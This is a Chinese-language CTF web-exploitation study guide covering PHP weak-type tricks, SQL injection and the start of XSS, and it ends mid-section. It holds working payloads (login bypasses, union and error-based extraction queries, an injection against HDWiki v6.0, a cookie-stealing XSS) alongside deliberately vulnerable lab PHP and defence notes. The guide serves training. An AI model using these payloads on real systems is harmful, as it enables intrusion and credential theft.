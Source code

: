 # Web In CTF

### 常见套路

- 爆破，包括md5、爆破随机数、验证码识别等

- 绕WAF，包括花式绕Mysql、绕文件读取关键词检测之类拦截

- 花式玩弄几个PHP特性，包括弱类型，strpos和===，反序列化 destruct、\0截断

- 各种找源码技巧，包括git、svn、xxx.php.swp、*www*.(zip|tar.gz|rar|7z)、xxx.php.bak、

- 文件上传，包括花式文件后缀 .php345 .inc .phtml .phpt .phps、各种文件内容检测<?php <? <% <script language=php>、花式解析漏洞

- Mysql类型差异，包括和PHP弱类型类似的特性,0x、0b、1e之类，varchar和integer相互转换

- open_basedir、disable_functions花式绕过技巧，包括dl、mail、imagick、bash漏洞、DirectoryIterator及各种二进制选手插足的方法

- 社工，包括花式查社工库、微博、QQ签名、whois

- windows特性，包括短文件名、IIS解析漏洞、NTFS文件系统通配符、::$DATA，冒号截断

- XSS，各种浏览器auditor绕过、富文本过滤黑白名单绕过、flash xss

- XXE，各种XML存在地方（rss/word/流媒体）、各种XXE利用方法（SSRF、文件读取）

- HTTP协议，花式IP伪造 X-Forwarded-For/X-Client-IP/X-Real-IP/CDN-Src-IP、花式改UA，花式藏FLAG、花式分析数据包


### 1. 信息泄露

#### 1.1 查看源代码

在线上CTF赛事的Web题目中，网页源代码是一个很重要的思路来源，按F12或右键查看源代码即可。

#### 1.2 robots.txt

爬虫协议，有时可以通过它看见一些重要的目录。

User-agent: *

Disallow: /images/

Disallow: /f1ag.txt/

Disallow: /tips.php

#### 1.3 注释

一般在右键源代码中，有时注释隐藏着重要的信息或者tips，或者出题者写下的思路。

#### 1.4 备份文件源码泄漏

​	常见备份文件后缀：

- .rar
- .zip
- .7z
- .tar.gz
- .bak
- .swp
- .txt
- .html
-  linux中可能以" ~ " 结尾
-  ng源码泄露，git源码泄露，DS_Store文件泄漏，网站备份压缩文件，SVN导致文件泄露，WEB-INF/web.xml泄露，CVS泄漏等，可参考以下资料：
- <https://www.cnblogs.com/xishaonian/p/7628153.html>
- <http://www.s2.sshz.org/post/source-code-leak/>
- <https://zhuanlan.zhihu.com/p/21296806>

#### 1.5 include漏洞

遇到php代码中有include($file)的，一般和 php://input或者php://filter有关，$file值如果是php://input，就要用post表单构造数据，如果是php://filter，就用下面的payload读取文件base64加密后的源代码，解密后查看源代码。

```php
php://filter/read=convert.base64-encoding/resource=文件名(如index.php)
```



### 2. 抓包/HTTP

#### 2.1 GET&POST

Get和Post操作是传参的基本操作，也是CTF中很常见的常规操作。

GET：在url中提交参数，如/index.php?a=1

POST：可通过hackbar或抓包插入post数据提交

最直接的区别：

GET请求的参数是放在URL里的，POST请求参数是放在请求body里的。

#### 2.2 HTTP头部绕过姿势

- 如果提示需要本地ip或指定ip才能访问，则可在报文头部添加以下几种常用信息段：

  ```http
  X-Forwarded-For: 127.0.0.1
  X-Client-IP: 127.0.0.1
  Client-IP: 127.0.0.1
  (ip地址可以根据需要修改)
  ```

- 如果需要验证网页来源，如一定要从谷歌跳转过来的页面才允许访问，则可在报文头部添加：

  ```http
  Referer: https://www.google.com
  ```

- 如果网页需要验证cookie，我们可以在http头部加入：

  ```http
  Cookie: u = stupid;
  ```

- 除了以上几种常见的情况，还需根据具体情况来使用不同的操作



### 3. 源码审计

#### 3.1 php弱类型

##### "=="与"==="

```php
<?php
	$a == $b ;
	$a === $b ;
?>
    
//=== 在进行比较的时候，会先判断两种字符串的类型是否相等，再比较
// == 在进行比较的时候，会先将字符串类型转化成相同，再比较
```

如果比较一个数字和字符串或者比较涉及到数字内容的字符串，则字符串会被转换成数值并且比较按照数值来进行

```php
<?php
var_dump("admin" == 0); //true
var_dump("1admin"== 1); //true
var_dump("admin1"== 1); //false
var_dump("admin1"== 0); //true
var_dump("0e123456"=="0e4456789"); //true 
?>  //上述代码可自行测试
    
 // 观察上述代码
 //"admin"==0 比较的时候，会将admin转化成数值，强制转化,由于admin是字符串，转化的结果是0自然和0相等
 //"1admin"==1 比较的时候会将1admin转化成数值,结果为1，而“admin1“==1 却等于错误，即是"admin1"被转化成了0,为什么呢？？
 //"0e123456"=="0e456789"相互比较的时候，会将0e这类字符串识别为科学技术法的数字，0的无论多少次方都是零，所以相等
```

php手册：

```c
/*
当一个字符串当作一个数值来取值，其结果和类型如下:如果该字符串没有包含'.','e','E'并且其数值值在整形的范围之内
该字符串被当作int来取值，其他所有情况下都被作为float来取值，该字符串的开始部分决定了它的值，如果该字符串以合法的数值开始，则使用该数值，否则其值为0。
*/
```

```php
<?php
$test=1 + "10.5"; // $test=11.5(float)
$test=1+"-1.3e3"; //$test=-1299(float)
$test=1+"bob-1.3e3";//$test=1(int)
$test=1+"2admin";//$test=3(int)
$test=1+"admin2";//$test=1(int)
?>
    
So that's why " "admin1"==1 =>False "
```

![](\images\php==.png)

##### md5绕过(Hash比较缺陷)

```php
<?php
if (isset($_GET['Username']) && isset($_GET['password'])) {
    $logined = true;
    $Username = $_GET['Username'];
    $password = $_GET['password'];

     if (!ctype_alpha($Username)) {$logined = false;}
     if (!is_numeric($password) ) {$logined = false;}
     if (md5($Username) != md5($password)) {$logined = false;}
     if ($logined){
    echo "successful";
      }else{
           echo "login failed!";
        }
    }
?>
```

大意是要输入一个字符串和数字类型，并且他们的md5值相等，就可以成功执行下一步语句 

介绍一批md5开头是0e的字符串

**0e在比较的时候会将其视作为科学计数法**，所以无论0e后面是什么，0的多少次方还是0。

键入**md5('240610708') == md5('QNKCDZO')**成功绕过！

收集md5开头是0e的字符串（来源于网络）：

```php
QNKCDZO
0e830400451993494058024219903391

s878926199a
0e545993274517709034328855841020
  
s155964671a
0e342768416822451524974117254469
  
s214587387a
0e848240448830537924465865611904
  
s214587387a
0e848240448830537924465865611904
  
s878926199a
0e545993274517709034328855841020
  
s1091221200a
0e940624217856561557816327384675
  
s1885207154a
0e509367213418206700842008763514
```

##### json绕过

```php
<?php
if (isset($_POST['message'])) {
    $message = json_decode($_POST['message']);
    $key ="*********";
    if ($message->key == $key) {
        echo "flag";
    } 
    else {
        echo "fail";
    }
 }
 else{
     echo "~~~~";
 }
?>
```

输入一个json类型的字符串，json_decode函数解成一个数组，判断数组中key的值是否等于 $key的值，但是$key的值我们不知道，**但是可以利用0=="admin"这种形式绕过**.

**最终payload **

````json
message={"key":0}
````

##### array_search is_array绕过

```php
<?php
if(!is_array($_GET['test'])){exit();}
$test=$_GET['test'];
for($i=0;$i<count($test);$i++){
    if($test[$i]==="admin"){
        echo "error";
        exit();
    }
    $test[$i]=intval($test[$i]);
}
if(array_search("admin",$test)===0){
    echo "flag";
}
else{
    echo "false";
}
?>
```

先判断传入的是不是数组，然后循环遍历数组中的每个值，并且数组中的每个值不能和admin相等，并且将每个值转化为int类型，再判断传入的数组是否有admin，有则返回flag。

```php
payload: test[]=0//可以绕过
```

官方手册对array_search的介绍

```php
mixed array_search ( mixed $needle , array $haystack [], bool $strict = false )
```

$needle，$haystack必需，$strict可选  函数判断$haystack中的值是存在$needle，存在则返回该值的键值 第三个参数默认为false，如果设置为true则会进行严格过滤。

```php
<?php
	$a=array(0,1);
	var_dump(array_search("admin",$a));  // int(0) ==> 返回键值0
	var_dump(array_search("1admin",$a)); // int(1) ==> 返回键值1
?>
```

array_search函数 类似于 == 也就是$a =="admin" 当然是$a=0  当然如果第三个参数为true则就不能绕过。

##### strcmp漏洞绕过 php -v <5.3

```php
<?php
    $password="***************"
     if(isset($_POST['password'])){

        if (strcmp($_POST['password'], $password) == 0) {
            echo "Right!!!login success";n
            exit();
        } else {
            echo "Wrong password..";
        }
 ?>
```

- strcmp是比较两个字符串，如果str1<str2 则返回<0 如果str1大于str2返回>0 如果两者相等 返回0
- 我们是不知道$password的值的，题目要求strcmp判断的接受的值和$password必需相等，strcmp传入的期望类型是字符串类型，如果传入的是个数组会怎么样呢
- 我们传入 password[]=xxx 可以绕过 是因为函数接受到了不符合的类型，将发生错误，但是还是判断其相等
- payload: password[]=xxx

##### switch绕过

```php
<?php
$a="4admin";
switch ($a) {
    case 1:
        echo "fail1";
        break;
    case 2:
        echo "fail2";
        break;
    case 3:
        echo "fail3";
        break;
    case 4:
        echo "sucess";  //结果输出success;
        break;
    default:
        echo "failall";
        break;
}
?>
```

原理和上面一样

##### is_numeric（）、int()强制类型转换

```php
<?php
show_source(__FILE__);
$flag = "xxxx";
if(isset($_GET['time'])){ 
        if(!is_numeric($_GET['time'])){ 
                echo 'The time must be number.'; 
        }else if($_GET['time'] < 60 * 60 * 24 * 30 * 2){ 
                        echo 'This time is too short.'; 
        }else if($_GET['time'] > 60 * 60 * 24 * 30 * 3){ 
                        echo 'This time is too long.'; 
        }else{ 
                sleep((int)$_GET['time']); 
                echo $flag; 
        } 
                echo '<hr>'; 
}
?>
```

知识点：

```
int()，不能正确转换的类型有十六进制型字符串、科学计数法型字符串
is_numeric()支持普通数字型字符串、科学记数法型字符串、部分支持十六进制0x型字符串
```

先判断是不是数字，然后再进行int长短的限定判断，也就是只能限定在5184000L<  time <  7776000

通过is_number() 能传入科学计数法，来进行绕过。

所以根据int不能处理科学计数法，而在is_number上能处理来解决。



### 4. SQL注入

#### 分类

##### 按照参数类型分类

按照参数类型可以分为两类:数值型、字符型

简单来说，就是：

```sql
数字型注入
加单引号 错误出异常
and 1 = 1 正常
and 1 = 2 异常

字符型注入
加单引号 错误出异常
and '1' = '1 正常
and '1' = '2 异常
```

###### 数值型

程序拼接的变量值没有被引号包裹。数值型注入是无视php的gpc或者addslashes、mysql_real_escape_string,mysql_escape_string或者其他对引号有转义函数的影响的。如果程序没有对关键字或者特殊符号过滤或者过滤不严(比如没有过滤union、select等关键字,可以使用联合注入,过滤了union、select等关键字,可以用盲注或者报错注入等方法)

eg:

```mysql
CREATE DATABASE IF NOT EXISTS `test`;
CREATE TABLE IF NOT EXISTS `news` (
  `tid` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `title` varchar(30) CHARACTER SET utf8 NOT NULL,
  `content` varchar(256) CHARACTER SET utf8 NOT NULL,
  PRIMARY KEY (`tid`)
) ENGINE=MyISAM  DEFAULT CHARSET=utf8 AUTO_INCREMENT=3 ;

INSERT INTO `news` (`tid`, `title`, `content`) VALUES
(1, '新闻1', '这是第一篇文章'),
(2, '新闻2', '这是第二篇文章');
```



sqlinjection.php(test on mysql 5.5.38)

```php
<?php
session_start();
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
mysql_select_db('test', $conn) OR emMsg("连接数据库失败，未找到您填写的数据库");
if (isset($_GET['id'])&&$_GET['id']){
    $id = $_GET['id'];
    $sql = "select * from news where id=$id";
    echo $sql;
    $result = mysql_query($sql, $conn) or die(mysql_error());
}
else{
    $sql = "SELECT * FROM news";
    echo $sql;
    $result = mysql_query($sql, $conn) or die(mysql_error()); //sql出错会报错，方便观察
}
?>
<!DOCTYPE html>
<html>
<head>
<title>新闻</title>
</head>
<body>
<?php
if (isset($result)){
    while($row = mysql_fetch_row($result, MYSQL_ASSOC)){
        echo "{$row['tid']}    {$row['title']}    {$row['content']}</br>";
    }
}
?>
</body>
</html>
```

如果使用联合注入测试有回显并且是第三个字段在页面有回显,那么可以使用联合注入(这里假设test表是三个字段):

```mysql
http://127.0.0.1/sqlinjection.php?id=1 union select 1,2,user() --
```

没有回显可以尝试下看能不能报错注入,比如:

```mysql
http://127.0.0.1/sqlinjection.php?id=1 or updatexml(2,concat(0x7e,(version())),0) --
```

也可以试下时间盲注,比如:

```mysql
http://127.0.0.1/sqlinjection.php?id=3 and sleep(3) --
```

也可以试下bool盲注(看能不能引起页面变化):

```mysql
http://127.0.0.1/sqlinjection.php?id=3 and (length(database()))>10 --
```

__注__: 上面的测试是在对应的注入方式中关键字或者特殊符号没有被过滤的情况下,真实环境中也不知道到底过滤了什么或者是其他原因。在不能看到源码的而情况下,也只能fuzz(随机测试)。

__注__: 上面这些只是提供大致的思路。联合注入,报错注入,盲注以及其他注入方式有很多,还可以结合编码等或者其他大佬总结的什么方式绕过,需要用到的时候可以搜集资料详细的学习。

###### 字符型

程序拼接的变量被引号包裹。字符型注入是是受php的gpc或者addslashes、mysql_real_escape_string,mysql_escape_string或者其他对引号有转义的函数影响的。如果程序没有对引号和关键字或者特殊符号过滤或者过滤不严,可能会导致sql注入。

eg:

```php
$p = $_GET['p']; p = 100' and '1'='1
$sql = "select * from news where p = '3' and '1'='2'";
```

闭合单引号,如果使用联合注入测试有回显并且是第三个字段在页面有回显,那么可以使用联合注入(这里假设test表是三个字段):

```mysql
http://xxx/qqq.php?p=1' union select 1,2,user() --
```

闭合单引号,没有回显可以尝试下看能不能报错注入,比如:

```mysql
http://xxx/qqq.php?p=1' or updatexml(2,concat(0x7e,(version())),0) --
```

也可以试下时间盲注,比如:

```mysql
http://xxx/qqq.php?p=1' and sleep(5) --
```

也可以试下bool盲注(看能不能引起页面变化):

```mysql
http://xxx/qqq.php?p=1' and (length(database()))>10 --
```

__注__: 上面的测试是在对应的注入方式中关键字或者特殊符号没有被过滤的情况下,真实环境中也不知道到底过滤了什么或者是其他原因。在不能看到源码的而情况下,也只能fuzz(随机测试)

__注__: 上面这些只是提供大致的思路。联合注入,报错注入,盲注以及其他注入方式有很多,还可以结合编码等或者其他大佬总结的什么方式绕过,需要用到的时候可以搜集资料详细的学习。

##### 按数据库返回的结果分类

据数据库返回的结果,分为回显注入、报错注入、盲注。

###### 回显注入

可以直接在存在注入点的当前页面中获取返回结果,可以使用回显注入。

常见利用:

- union select

###### 报错注入

程序将数据库的返回错误信息直接显示在页面中。虽然没有返回数据库的查询结果,但是可以构造一些报错语句从错误信息中获取想要的结果。

常见利用:

- floor
- updatexml
- extractvalue

###### 盲注

程序后端屏蔽了数据库的错误信息，没有直接显示结果也没有报错信息，只能通过数据库的逻辑和延时函数来判断注入的结果。

- bool盲注(based boolean)
  - 如果测试时发现页面有变化,可以尝试使用bool盲注
- 时间盲注(based time)
  - 如果测试时页面无变化,但是通过sleep发现页面存在延迟,可以尝试使用时间盲注

利用:

- Length()、Substr()、Ascii()、sleep()、if(expr1,expr2,expr3)等结合使用

##### 其他特殊注入

###### 宽字节注入

形成条件:

- 开启了gpc或使用addslashes、mysql_real_escape_string,mysql_escape_string等对引号转义的函数
- 使用了`SET NAMES 多字节编码`或者`set character_set_client=多字节编码`指令,这里多字节编码低位的范围需要覆盖0x5C才能导致注入。我们最常见的是gbk编码。

假如代码中设置的是GBK编码(mysql那端表或者字段设置的编码无影响,会自动转换),这时只要引入宽字节高位编码吃掉`\`(%5c),就导致了宽字节注入的发生。

可以参考[https://lyiang.wordpress.com/2015/06/09/sql注入：宽字节注入（gbk双字节绕过）/](https://lyiang.wordpress.com/2015/06/09/sql注入：宽字节注入（gbk双字节绕过）/)

eg:

```mysql
CREATE DATABASE IF NOT EXISTS `test`;
CREATE TABLE IF NOT EXISTS `news` (
  `tid` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `title` varchar(30) CHARACTER SET utf8 NOT NULL,
  `content` varchar(256) CHARACTER SET utf8 NOT NULL,
  PRIMARY KEY (`tid`)
) ENGINE=MyISAM  DEFAULT CHARSET=utf8 AUTO_INCREMENT=3 ;

INSERT INTO `news` (`tid`, `title`, `content`) VALUES
(1, '新闻1', '这是第一篇文章'),
(2, '新闻2', '这是第二篇文章');
```

sqlgbkinjection.php(test on mysql 5.5.38)

```php
<?php
//连接数据库部分，注意使用了gbk编码，把数据库信息填写进去
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
mysql_query("SET NAMES 'gbk'");
mysql_select_db('test', $conn) OR emMsg("连接数据库失败，未找到您填写的数据库");
//执行sql语句
$id = isset($_GET['id']) ? addslashes($_GET['id']) : 1;
$sql = "SELECT * FROM news WHERE tid='{$id}'";
$result = mysql_query($sql, $conn) or die(mysql_error()); //sql出错会报错，方便观察
?>
<!DOCTYPE html>
<html>
<head>
<meta charset="gbk" />
<title>新闻</title>
</head>
<body>
<?php
$row = mysql_fetch_array($result, MYSQL_ASSOC);
echo "<h2>{$row['title']}</h2><p>{$row['content']}<p>\n";
mysql_free_result($result);
?>
</body>
</html>
```

测试:
`http://127.0.0.1/sqlgbkinjection.php?id=10%df%27%20union%20select%201,user(),database()%23`

###### 二次注入

首先将构造好的利用代码写入网站保存,再第二次或多次请求后调用攻击代码触发或者修改配置触发的漏洞。



比如sql二次注入:

在第一次进行数据库插入数据的时候，仅仅只是使用了 addslashes 或者是借助 get_magic_quotes_gpc 对其中的特殊字符进行了转义，在写入数据库的时候还是保留了原来的数据，但是数据本身还是脏数据。

在将数据存入到了数据库中之后，开发者就认为数据是可信的。在下一次进行需要进行查询的时候，直接从数据库中取出了脏数据，没有进行进一步的检验和处理，这样就会造成SQL的二次注入。比如在第一次插入数据的时候，数据中带有单引号，直接插入到了数据库中；然后在下一次使用中在拼凑的过程中，就形成了二次注入。

eg:
数据表使用的是上面news表

secondaryinjection.php(test on mysql 5.5.38)

```php
<?php
error_reporting(0);
session_start();
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
mysql_select_db('test', $conn) OR emMsg("连接数据库失败，未找到您填写的数据库");
if (isset($_GET['title'])&&isset($_GET['tid'])&&isset($_GET['content'])){
    $tid = intval($_GET['tid']);
    $title = $_GET['title'];
    $content = $_GET['content'];
    if (!get_magic_quotes_gpc()){
        $title = addslashes($title);
        $content = addslashes($_GET['content']);
    }
    $sql = "INSERT INTO news(tid,title,content) VALUES ($tid,'$title','$content')";
    mysql_query($sql, $conn) or die(mysql_error());

    $sql = "select * from news where tid=$tid";
    echo $sql;
    $results = mysql_query($sql,$conn);
    $row = mysql_fetch_array($results);
    $_SESSION['tid'] = $row['tid'];
    $_SESSION['title'] = $row['title'];
    echo $_SESSION['title'];
}
elseif (isset($_SESSION['title'])){
    $title = $_SESSION['title'];
    $sql = "select * from news where title='$title'";
    echo $sql.'<br>';
    $results = mysql_query($sql, $conn) or die(mysql_error());
    while ($row = mysql_fetch_array($results))
    {
        echo $row['title'].'    '.$row['content'];
        echo '<br>';
    }
}
else{
    echo 'Try create a new';
}
?>
```

`http://127.0.0.1/secondaryinjection.php?tid=6&title=aaa%27 union select 1,user(),3%23&content=qqqqq`

`http://127.0.0.1/secondaryinjection.php`

#### 检测判断sql注入：

```sql
id=1' and 1=0 //报错
id=1' and 1=1 //正确
```

#### 判断什么类型注入：

```sql
id=1'
id=1"
```

可加 “\” 等符号，构造报错，从报错回显中观察是什么类型的错误，如：

```sql
SELECT * from table_name WHERE id='our input'

SELECT * from table_name WHERE id=our input

SELECT * from table_name WHERE id=('out input')

SELECT * from table_name WHERE id=("our input")
```

![](C:\Users\mcwin\Desktop\Web In CTF\images\sql.png)

原理如上

#### 数据库查询版本

- Mssql: select @@version
- Mysql: select version（）/select @@version
- oracle: select banner from ￥version
- Postgresql: select version（）

#### 判断过滤了哪些字符？

采用异或注入。
在id=1后面输入 '(0)'
发现不出错，那就将0换成1=1
如果出错，那就是成功了

如果括号里面的判断是假的，那么页面就会显示正确
那么同理，
如果修改里面的内容为length(‘union’)!=0
如果页面显示正确，那就证明length(‘union’)==0的，也就是union被过滤了

#### 判断字段长度

- order by 数字 可以判断字段的个数
- 也可以用猜字段 union select 1，2，3

```sql
id=1' order by 1
id=1' order by 2
...
id=1' order by n
```

如果n出现了错误那么共有n-1列，union查询必须列数量对齐，也就是说union select 1,2,...,n-1 from ...

#### 判断字段回显位置

在链接后面添加语句`union select 1,2,3,4,5,6,7,8,9,10,11#`进行联合查询（联合查询时记得把前面的查询为空）来暴露可查询的字段号。

#### 判断数据库注入

利用内置函数暴数据库信息
version()版本；database()数据库；user()用户；
不用猜解可用字段暴数据库信息(有些网站不适用):

```sql
and 1=2 union all select version()
and 1=2 union all select database()
and 1=2 union all select user()
操作系统信息：and 1=2 union all select @@global.version_compile_os from mysql.user
数据库权限：and ord(mid(user(),1,1))=114 返回正常说明为root
```

#### 绕过登陆验证

- admin’ –
- admin’ #
- admin’/*
- ’ or 1=1–
- ’ or 1=1#
- ’ or 1=1/*
- ') or ‘1’='1–
- ') or (‘1’='1–

#### SQL注入常见函数

- group_concat函数 可以把查询的内容组合成一个字符串
- load_file(file name ) 读取文件并将文件按字符串返回
- left（string，length）返回最左边指定的字符数：
- left（database（），1）>‘s’ (猜名字)
- length（）判断长度
- length（database（）>5
- substr（a，b，c）从字符串a中截取 b到c长度
- ascii（）将某个字符转为ascii值
- ascii（substr（user（），1，1））=101#
- mid（（a，b，c）从字符串a中截取 b到c位置（可以用来猜数据库名 ）

#### 联合爆库：

这里假设有3列：

为了让联合注入工作，首先要知道数据库中的表名，键入：

```sql
id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() --+ //--+是把语句闭合后注释掉后面的语句
```

有时程序可能不会打印出所有的行，这时我们就得使用关键字limit一条条进行查询，键入：

```sql
id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 1,1 --+
id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 2,1 --+
```

或者可以用group_concat():

```sql
id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
```

假设有'users'表

现在看其中的一个表，为了提取其信息，键入：

```sql
id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+
```

注意，我们使用'column'替换了'table'，因为我们想要的是一个表的列信息
假设有'username'，'password'，'flag'列，我们可以键入：

```sql
id=-1' union select 1,group_concat(username),3 from users --+
id=-1' union select 1,group_concat(username),group_concat(password) from users --+
id=-1' union select 1,flag,3 from users --+
```

即可按需查询所需要的信息。



#### 报错注入：

```sql
- floor （SELECT user()可修改）

- OR (SELECT 8627 FROM(SELECT COUNT(*),CONCAT(0x70307e,(SELECT user()),0x7e7030,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)–+
  
- ExtractValue(有长度限制,最长32位) （select @@version可修改）
  
  and extractvalue(1, concat(0x7e, (select @@version),0x7e))–+

- UpdateXml(有长度限制,最长32位) （SELECT @@version可修改）

  and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)–+

- NAME_CONST(适用于低版本，不太好用)

- and 1=(select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)–+

- Error based Double Query Injection

- or 1 group by concat_ws(0x7e,version(),floor(rand(0)*2)) having min(0) or 1–+

- exp(5.5.5以上) （select user()可修改）

- and (select exp(~(select * from(select user())x)))–+

- floor(Mysql): and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x 
from information_schema.tables group by x)a);

- Extractvalue(Mysql): and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

- Updatexml(Mysql): and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

- EXP: and exp(~(select * from(select user())a));

- UTL INADDR. get host address(Oracle): and 1=utl inaddrget host address(select bannerO from sys.v_$version where rownum=1))

- multipoint(Mysql)：and multipoint((select * from(select * from(select user())a)b));

- polygon(Mysql)：and polygon((select * from(select * from(select user())a)b));

- multipolygon(Mysql)：and multipolygon((select * from(select * from(select 
user())a)b));

- linestring(Mysql)：and linestring((select * from(select * from(select user())a)b));

- multilinestring(Mysql)：and multilinestring((select * from(select * from(select user())a)b));
```



#### bool盲注

- 盲注的时候一定注意，MySQL4之后大小写不敏感，可使用binary()函数使大小写敏感。

- ##### 布尔条件构造

  ```sql
  //正常情况
   'or bool#
   true'and bool#
       
   //不使用空格、注释
   'or(bool)='1
   true'and(bool)='1
       
   //不使用or、and、注释
   '^!(bool)='1
   '=(bool)='
   '||(bool)='1
   true'%26%26(bool)='1
   '=if((bool),1,0)='0
       
   //不使用等号、空格、注释
   'or(bool)<>'0
   'or((bool)in(1))or'0
       
   //其他
   or (case when (bool) then 1 else 0 end)
  ```

- 有时候where字句有括号又猜不到SQL语句的时候，可以有下列类似的fuzz

  ```sql
   1' or (bool) or '1'='1
   1%' and (bool) or 1=1 and '1'='1
  ```

- ##### 构造逻辑判断

  - 逻辑判断基本就那些函数：

    ```
      left(user(),1)>'r'  
      right(user(),1)>'r'  
      substr(user(),1,1)='r'  
      mid(user(),1,1)='r' 
          
      //不使用逗号 
      user() regexp '^[a-z]'
      user() like 'root%'
      POSITION('root' in user())
      mid(user() from 1 for 1)='r'
      mid(user() from 1)='r'
    ```

- ##### 利用order by盲注

  ```sql
  mysql> select * from admin where username='' or 1 union select 1,2,'5' order by 3;
  +----+--------------+------------------------
  | id |    username  | password                   
  +----+--------------+------------------------
  |  1 | 2            | 5                         
  |  1 | admin        | 51b7a76d51e70b419f60d34 
  +----+----------- --+------------------------
  2 rows in set (0.00 sec)
      
  mysql> select * from admin where username='' or 1 union select 1,2,'6' order by 3;
  +-----+-----------+--------------------------
  |id   | username  | password                  
  +-----+-----------+--------------------------
  |  1  | admin     |51b7a76d51e70b419f60d3
  |  1  |    2      | 6                          
  +-----+-----------+--------------------------
  2 rows in set (0.01 sec)
  ```

#### 延时盲注

- 相对于bool盲注，就是把返回值0和1改为是否执行延时，能用其他方法就不使用延时。
- 一般格式if((bool),sleep(3),0)和or (case when (bool) then sleep(3) else 0 end)
- 两个函数：
- BENCHMARK(100000,MD5(1))
- sleep(5)
- BENCHMARK()用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源，推荐使用sleep()。

#### Mysql注释符

```sql
1. -- -
2. /* .... */
3. #
4. `
5. ;%00 
```

#### GBK绕过注入

- 在分号前加%df%27
- 示例：id=1%df%27 union select 1.2–+

### 实例

以HDWiki v6.0 UTF8-20170209 前台sql注入为例，index.php?doc-create创建词条可以通过`aaaa……aa'` 81个字符，经过转义变成`aaaa……aa\'`82个字符，经过截断变成`aaaa……aa\`81个字符，将sql语句中的单引号转义，并且后面一个参数用户可控，产生了SQL注入

`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'`

`，concat(user(),0x7c,database(),0x7c,version()),1,1,#`

### 漏洞防范

#### gpc/rutime魔术引号

- magic_quotes_gpc负责对GET、POST、COOKIE的值进行过滤
- magic_quotes_runtime对从数据库或者文件中获取的数据进行过滤。上面的二次注入可以使用这个函数对特殊符号转义

开启这两个选项也只能防御部分SQL注入。因为他们只对`'`、`"`、`\`、`空字符`进行转义,在int型注入上没有太大作用。

#### 过滤函数和类

##### addslashes函数

addslashes也是对`'`、`"`、`\`、`空字符`进行转义，大多数程序使用它实在程序入口，判断如果没有没有开启gpc,则使用它对参数进行过滤,不过他的参数必须是string,所以如果参数是数组类型,那么必须使用此函数对数组递归过滤。

##### mysql\_[real]\_escape\_string

mysql_escape_string和mysql_real_escape_string函数都是对字符串进行过滤,在php4.0.3以上版本才有这两个函数,`\x00`、`\n`、`\r`、`\`、`'`、`"`、`\x1a`。不同在于mysql_real_escape_string接受的是一个连接句柄并根据当前字符集转义字符串,所以最好使用mysql_real_escape_string。

mysql_escape_string

```php
$item = "Zak's Laptop";
$escaped_item = mysql_escape_string($item);
```

mysql_real_escape_string

```php
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
$item = "Zak's Laptop";
$escaped_item = mysql_real_escape_string($item,$conn);
```

##### intval

将字符转换成数值

eg:

```php
$id = '1 union select';
$id = intval($id);
echo $id;
```

#### PDO预编译方式

使用PDO方式基本可以防止sql注入,原因是因为有两次传输，前一次传一个sql模板，第二次传查询参数，会把第二步传入的参数只做查询参数处理，不做语义解释，这样注入的条件就算执行了，也不会得到查询结果。但是还是存在特殊情况会在使用了PDO方式也会存在注入,可以参考[https://stackoverflow.com/questions/134099/are-pdo-prepared-statements-sufficient-to-prevent-sql-injection/12202218#12202218](https://stackoverflow.com/questions/134099/are-pdo-prepared-statements-sufficient-to-prevent-sql-injection/12202218#12202218)

eg:

```php
try {
$pdo = new PDO('mysql:host=localhost;dbname=test', 'root', 'root');
} catch (PDOException $e) {
echo $e->getMessage();
}
$sta = $pdo->prepare('select * from table where name = ?'); //准备 SQL 模版，其中 ? 代表一个参数。
$sta->execute(array('name1')); //通过数组设置参数，执行 SQL 模版
```

## 5.XSS漏洞(跨站脚本攻击)

### 成因与危害

参数没有被过滤或严格过滤,且参数传入到了输出函数,被输出到了页面。常出现在文章发表、评论回复、留言、资料修改等地方。

可能产生如下危害:

- 窃取cookie
- 修改页面进行钓鱼
- 前端能做的事情,xss都能做到

### 分类

反射型、存储型、dom型

#### 反射型

经过了后端,但是没有经过经过数据库。

数据流向: 浏览器 -> 后端 -> 浏览器

eg:

reflectxss.php(test on mysql 5.5.38)

```php
XSS反射演示
<form action="" method="get">
    <input type="text" name="xss"/>
    <input type="submit" value="test"/>
</form>
<?php
session_start();
$xss = @$_GET['xss'];
if($xss!==null){
    echo $xss;
}
?>
```

`http://127.0.0.1/reflectxss.php?xss=%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3E`

恶意利用(以获取用户cookie为例):
比如`http://xxx.com/xxx.php?aaa=攻击者编写的获取用户cookie的代码`存在反射型xss,
攻击者可以把构造好的链接发到论坛或者其他方式诱导用户点击,如果用户点击了链接,那么用户的cookie会被攻击者的服务器收到,攻击者可以利用用户的cookie登陆目标网站

#### 存储型

数据经过了后端,经过了数据库。

数据流向: 浏览器-> 后端-> 数据库-> 后端-> 浏览器

eg:

```mysql
create table xss (
    id int(10) unsigned NOT NULL AUTO_INCREMENT,
    payload varchar(100) NOT NULL,
    PRIMARY KEY (id)
)ENGINE=MyISAM DEFAULT CHARSET=utf8;
```

storagexss.php(test on mysql 5.5.38)

